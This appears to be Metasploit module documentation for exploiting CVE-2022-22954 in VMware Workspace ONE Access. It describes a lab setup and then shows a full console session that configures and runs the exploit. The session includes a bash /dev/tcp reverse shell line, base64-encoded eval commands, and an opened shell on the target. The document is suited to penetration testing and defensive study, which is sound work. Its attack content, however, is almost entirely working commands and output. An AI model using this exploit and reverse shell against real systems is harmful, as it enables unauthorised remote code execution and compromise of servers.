 ## Vulnerable Application

### Setup

Follow [Installing and Configuring VMware Workspace ONE Access] or simply import the OVA into a **VMware hypervisor**. The target should be exploitable out of the box.

1. Import `identity-manager-21.08.0.1-19010796_OVF10.ova`
1. Boot the VM
1. Hax

[Installing and Configuring VMware Workspace ONE Access]: https://docs.vmware.com/en/VMware-Workspace-ONE-Access/21.08/workspace_one_access_install/GUID-0FABD001-050B-4A54-B100-2FA4E8F55613.html

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

## Scenarios

### VMware Workspace ONE Access 21.08.0.1

```
msf6 > use exploit/linux/http/vmware_workspace_one_access_cve_2022_22954
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/vmware_workspace_one_access_cve_2022_22954) > options

Module options (exploit/linux/http/vmware_workspace_one_access_cve_2022_22954):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(linux/http/vmware_workspace_one_access_cve_2022_22954) > set rhosts 192.168.0.5
rhosts => 192.168.0.5
msf6 exploit(linux/http/vmware_workspace_one_access_cve_2022_22954) > set lhost 192.168.0.4
lhost => 192.168.0.4
msf6 exploit(linux/http/vmware_workspace_one_access_cve_2022_22954) > set reverselistenerbindaddress 127.0.0.1
reverselistenerbindaddress => 127.0.0.1
msf6 exploit(linux/http/vmware_workspace_one_access_cve_2022_22954) > set verbose true
verbose => true
msf6 exploit(linux/http/vmware_workspace_one_access_cve_2022_22954) > run

[+] bash -c '0<&174-;exec 174<>/dev/tcp/192.168.0.4/4444;sh <&174 >&174 2>&174'
[*] Started reverse TCP handler on 127.0.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Executing command: bash -c {eval,$({echo,ZWNobyB5dGdJRGVVaVM=}|{base64,-d})}
[+] The target is vulnerable.
[*] Executing cmd/unix/reverse_bash (Unix Command)
[*] Executing command: bash -c {eval,$({echo,YmFzaCAtYyAnMDwmMTM4LTtleGVjIDEzODw+L2Rldi90Y3AvMTkyLjE2OC4wLjQvNDQ0NDtzaCA8JjEzOCA+JjEzOCAyPiYxMzgn}|{base64,-d})}
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:55079) at 2022-05-02 20:17:23 -0500

id
uid=1001(horizon) gid=1003(www) groups=1003(www),1001(vfabric),1002(pivotal)
uname -a
Linux photon-machine 4.19.217-1.ph3 #1-photon SMP Thu Dec 2 02:29:27 UTC 2021 x86_64 GNU/Linux
```

